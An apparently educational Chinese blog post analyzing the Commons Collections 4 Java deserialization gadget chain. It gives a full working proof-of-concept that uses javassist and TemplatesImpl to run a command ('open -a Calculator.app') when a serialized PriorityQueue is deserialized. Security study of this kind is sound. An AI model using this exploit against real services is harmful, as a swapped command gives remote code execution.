


# CommonsCollections4利用链分析

## 前言

继续来看`CommonsCollections4`的链子，在`ysoserial`里的注释说明是在`CommonsCollections2`的基础上，使用`InstantiateTransformer`类替代`InvokerTransformer`类


因此利用链为：
```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InstantiateTransformer.transform()
                            newInstance()
                                TrAXFilter#TrAXFilter()
                                TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```

环境和`CommonsCollections2`一样
```
CommonsCollections 4.0
JDK 版本暂无限制
需要 javassist(伪条件，具体见下文)
```

## 利用链分析

其实到这里已经没有什么好分析的了，就是把`CommonsCollections2`中的`InvokerTransformer`替换成`CommonsCollections3`中学习到的`InstantiateTransformer`，所有知识都是前面分析过的，这里就不再赘述了，可以直接写出 POC 了
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/10/9 10:51
 */
public class CommonsCollections4 {
    public static void main(String[] args) throws Exception{
        CommonsCollections4 commonsCollections4 = new CommonsCollections4();
        commonsCollections4.serialize();
        commonsCollections4.unserialize();
    }

    public void serialize() throws Exception {
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes",targetByteCodes);
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);
        // 利用链
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { templates } )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        // 通过反射将comparator修改为前面的链子
        Field comparator = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, transformingComparator);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```


